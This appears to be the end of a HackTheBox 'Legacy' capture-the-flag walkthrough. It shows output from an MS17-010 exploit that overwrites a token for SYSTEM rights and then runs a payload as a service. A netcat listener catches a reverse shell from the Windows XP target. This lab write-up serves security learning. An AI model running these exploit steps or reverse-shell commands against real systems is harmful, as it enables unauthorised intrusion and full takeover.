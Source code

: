 ```
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe22ed998
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe22eda38
overwriting token UserAndGroups
Sending file GPHZ28.exe...
Opening SVCManager on 10.10.10.4.....
Creating service yDOZ.....
Starting service yDOZ.....
The NETBIOS connection with the remote host timed out.
Removing service yDOZ.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
```

```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    HelpAssistant            
john                     SUPPORT_388945a0         
The command completed with one or more errors.


C:\WINDOWS\system32>
```

And we have a shell back. Again we are already **system**, so no privilege escalation is needed.

I have shown you exploitation of both **MS08-067** and **MS17-010**.

So that was **Legacy** from **HackTheBox**. Hope you liked it.

Thanks for reading this far. I will see you in the next one. **PEACE**.

